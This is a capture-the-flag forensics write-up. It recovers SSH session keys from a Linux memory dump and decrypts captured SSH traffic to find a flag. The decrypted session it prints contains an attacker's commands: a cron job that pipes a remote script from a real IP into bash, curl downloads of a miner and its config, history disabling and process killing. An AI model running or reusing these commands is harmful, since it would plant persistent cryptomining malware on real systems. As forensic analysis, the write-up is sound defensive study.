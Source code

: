 ```yaml
---
layout: post
title: HTB Business CTF 2021 - Compromise
---
```


## Description

*We are certain that our internal network has been breached and the attacker tries to move laterally. We managed to capture some suspicious traffic and create a memory dump from a compromised server. I hope you are skilled enough to bring this incident to its end.*

*Available Data:*
        * *capture.pcap (network capture of SSH traffic)*
        * *dump.mem (memory dump of a suspicious system)*

<!--more-->
## Solution
The concrete goal of this challenge was not clear initially. However, one could guess that the encrypted SSH traffic somehow needs to be decrypted. So the fight-plan was the following:

1. Extract the SSH session key from the memory dump
2. Use the session key to decrypt the traffic

However, several substeps needed to be done to achieve this goal.

### Get The Right Volatility Profile
In order to use `volatility` one first needs to identify the correct profile of the memory dump. Unfortunately, the plugin `imageinfo` did not yield in any useful result.

```bash
forensics@siftworkstation: /cases/hackthebox/business_ctf_21/forensics/compromised
$ vol.py -f dump.mem imageinfo
Volatility Foundation Volatility Framework 2.6.1
/usr/local/lib/python2.7/dist-packages/volatility/plugins/community/YingLi/ssh_agent_key.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography.hazmat.backends.openssl import backend
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : No suggestion (Instantiated with LinuxUbuntu18043x64)
                     AS Layer1 : LimeAddressSpace (Unnamed AS)
                     AS Layer2 : FileAddressSpace (/cases/hackthebox/business_ctf_21/forensics/compromised/dump.mem)
                      PAE type : No PAE
                           DTB : -0x1L
```

Running `strings` on the memory dump showed, that it is a dump from a Linux machine. The exact identified version is

```
Linux Version: Ubuntu 18.04
Kernel Version: 4.15.0-142-generic (buildd@lgw01-amd64-036)
```

In order to create the correct version of a volatility profile, a identical (with the same kernel version) system needed to be created. After this, the steps described by [Andrea Fortuna][1]. Once done, volatility could be used as intended.

### Extract The SSH Session Keys
In order to extract the SSH session keys from the memory, `fox-it` provides a very useful volatility module ([OpenSSH-Session-Key-Recovery])[2]. Using this module, it was a piece to extract the SSH session keys from the memory dump.

```bash
forensics@siftworkstation: /cases/hackthebox/business_ctf_21/forensics/compromised
$ vol.py -f dump.mem --profile=LinuxUbuntu_4_15_0-142-generic_profilex64 linux_sshkeys -p 1692

/\____/\
\   (_)/        OpenSSH Session Key Dumper
 \    X         By Jelle Vergeer
  \  / \
   \/
Scanning for OpenSSH sshenc structures...

Name                           Pid      PPid     Address            Name                           Key                                                                                                                              IV                                                              
------------------------------ -------- -------- ------------------ ------------------------------ -------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------------------------------
sshd [sshd: developer@pts/0]       1692     1575 0x000055976d18cb40 aes256-gcm@openssh.com         893112f1ef2bf4567ca289545efeb1a20dd709ee18c0b5b83b2b85541bc93d1f                                                                 0b1148709466289120d7a241                                        
sshd [sshd: developer@pts/0]       1692     1575 0x000055976d18ccc0 aes256-gcm@openssh.com         06baa1f1779207f120813e3986854cc3e2196fa82cc6d6ec756409ad86e8c94a                                                                 5865d3c75d5dc1f2e19e6406   
```

### Decrypt The Encrypted SSH Traffic
The last step was to decrypt the encrypted SSH traffic from the captured network traffic. In order to achieve this, `fox-it` again provides a very useful tool called [OpenSSH-Network-Parser][3], which allows to decrypt SSH traffic from a `PCAP` file. In order to achieve this, one just needs to create a `JSON` file containing the extracted session keys.

```json
{
        "task_name": "sshd", 
        "sshenc_addr": 94108858764096, 
        "cipher_name": "aes256-gcm@openssh.com", 
        "key": "893112f1ef2bf4567ca289545efeb1a20dd709ee18c0b5b83b2b85541bc93d1f", 
        "iv": "0b1148709466289120d7a241"
}
{
        "task_name": "sshd", 
        "sshenc_addr": 94108858764480, 
        "cipher_name": "aes256-gcm@openssh.com", 
        "key": "06baa1f1779207f120813e3986854cc3e2196fa82cc6d6ec756409ad86e8c94a", 
        "iv": "5865d3c75d5dc1f2e19e6406"
}

```

Using the tool and the just created file `keys.json`, the SSH traffic could be decrypted. Thereby, the tool creates a file containing what is like the complete bash history of the SSH session.

```bash
forensics@siftworkstation: /cases/hackthebox/business_ctf_21/forensics/compromised
$ network-parser -p capture.pcap --popt keyfile=keys.json --proto ssh -o ssh-traffic/ 
getrlimit: (1024, 4096)
/cases/hackthebox/business_ctf_21/forensics/compromised/OpenSSH-Network-Parser/venv2/local/lib/python2.7/site-packages/gevent/builtins.py:96: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  result = _import(*args, **kwargs)
forensics@siftworkstation: /cases/hackthebox/business_ctf_21/forensics/compromised
$ ls ssh-traffic
192.168.1.10  files  stats_2021-07-27--16-24-42.txt
(venv2) forensics@siftworkstation: /cases/hackthebox/business_ctf_21/forensics/compromised
$ cat ssh-traffic/192.168.1.10/2021-07-07--13-56-06.txt | head -n 200
[192.168.1.10:50490 -> 192.168.1.11:22  2021-07-07 13:56:06.705333 - 2021-07-07 13:56:56.341421]
[User Auth Request]
username:      'developer'
service_name:  'ssh-connection'
method_name:   'none'

[User Auth Failure]
auth_continue:    'publickey,password'
partial_success:  0

[User Auth Request]
username:      'developer'
service_name:  'ssh-connection'
method_name:   'password'
Password: HTB{w3ll_1_th0ught_

Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jul  7 13:56:10 UTC 2021
  System load:  0.23              Processes:             94
  Usage of /:   48.6% of 8.79GB   Users logged in:       1
  Memory usage: 14%               IP address for enp0s3: 192.168.1.11
  Swap usage:   0%

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

90 packages can be updated.
23 updates are security updates.

New release '20.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Wed Jul  7 16:55:18 2021

developer@ubuntuserver:~$ 
echo "running....."config.json -t `echo $cores` >/dev/null &ash -s" >> /tmp/cron || true && \
export HISTFILE=/dev/null

developer@ubuntuserver:~$ 
d procid grep -vw suppoie | awk '{if($3>40.0) print $2}' | while read

> 
do

> 
kill -9 $procid

> 
done

developer@ubuntuserver:~$ 
rm -rf /dev/shm/jboss

developer@ubuntuserver:~$ 
ps -fe|grep -w suppoie |grep -v grep

developer@ubuntuserver:~$ 
if [ $? -eq 0 ]

> 
then

> 
pwd

> 
else

> 
crontab -r || true && \

> 
\cho "* * * * * curl -s http://147.182.172.189/logo1.jpg | bash -s" >> /tmp/cron || true && \

> 
crontab /tmp/cron || true && \

> 
rm -rf /tmp/cron || true && \

> 
curl -o /var/tmp/config.json http://147.182.172.189/1.json

> 
curl -o /var/tmp/suppoie http://147.182.172.189/rig

> 
echo "bjBfMG4zX3cwdWxkX2YxbmRfbTMhISF9Cg" > /dev/null

> 
chmod 777 /var/tmp/suppoie

> 
cd /var/tmp

> 
proc=`grep -c ^processor /proc/cpuinfo`

```

Thereby, the first part of the flag got visible in form of the password: `HTB{w3ll_1_th0ught_`. The second part of the flag was hidden in a Base64 encoded string that was echoed into `/dev/null`. Decoding it gives the second part of the flag: `n0_0n3_w0uld_f1nd_m3!!!}`.

```bash
forensics@siftworkstation: /cases/hackthebox/business_ctf_21/forensics/compromised
$ echo -n "bjBfMG4zX3cwdWxkX2YxbmRfbTMhISF9Cg" | base64 -d
n0_0n3_w0uld_f1nd_m3!!!}
base64: invalid input

```

This results in the complete flag of: **HTB{w3ll_1_th0ught_n0_0n3_w0uld_f1nd_m3!!!}**

[1]: https://www.andreafortuna.org/2019/08/22/how-to-generate-a-volatility-profile-for-a-linux-system/
[2]: https://github.com/fox-it/OpenSSH-Session-Key-Recovery
[3]: https://github.com/fox-it/OpenSSH-Network-Parser